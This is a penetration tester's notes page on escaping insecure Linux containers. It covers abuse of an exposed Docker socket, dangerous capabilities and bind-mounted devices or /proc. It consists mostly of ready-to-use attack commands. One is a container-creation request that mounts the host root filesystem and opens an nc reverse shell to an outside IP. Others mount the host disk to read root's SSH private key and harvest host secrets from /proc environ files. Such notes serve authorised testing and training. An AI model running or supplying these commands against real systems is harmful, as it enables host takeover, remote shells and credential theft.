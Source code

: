 ```yaml
---
title: Linux Container Escape
---
```


Break out of insecure containers on [[notes/linux/index]].
Don't forget to check [[notes/linux/credential-access-user]] and [[notes/linux/privilege-escalation-kernel-exploits]].

Untested tools:

- [deepce](https://github.com/stealthcopter/deepce)

# Sockets

Sockets, e.g. for the Docker API, mounted into the container.

~~~ bash
ls -ld /{run,var/run}/{crio/crio,docker,dockershim,containerd/containerd,frakti,rktlet}.sock
find / -type s -ls 2> /dev/null
~~~

## Docker Socket Exploitation

List available images.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock http://localhost/images/json
[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
  ...
]
~~~

Create a new container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' -d @- http://localhost/containers/create << EOF
{
  "Image": "sandbox:latest",
  "Cmd": ["/bin/sh","-c","rm -f /tmp/s && mkfifo /tmp/s && cat /tmp/s | /bin/sh -i 2>&1 | nc 10.10.14.53 1332 > /tmp/s"],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "Mounts": [
    {
      "Type": "bind",
      "Source": "/",
      "Target": "/rootfs"
    }
  ]
}
EOF
{"Id":"461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227","Warnings":[]}
~~~

Start the container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST http://localhost/containers/461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227/start
~~~

References:

- [Escaping the Whale: Things you probably shouldn't do with Docker (Part 1)](https://web.archive.org/web/20220528052412/https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)

# Capabilities

Dangerous capabilities like `CAP_SYS_ADMIN`.

~~~ bash
grep Cap /proc/self/status
~~~

Decode the output with `capsh --decode=00000000a80425fb`.

# Bind Mounts

Direct access to storage devices.

~~~ bash
mount | grep -e /dev/
ls -la /dev
~~~

This can be exploited by mounting the host rootfs.

~~~ bash
mount /dev/sda1 /mnt
cat /mnt/root/.ssh/id_rsa
~~~

If `mount` shows `proc on /proc type proc`, then `/proc` was bind-mounted into the container.
You can access the host rootfs trough `/proc/*/root/etc/passwd`.
Additionally you might be able to extract secrets from the host trough `/proc/*/cmdline` and `/proc/*/environ`.

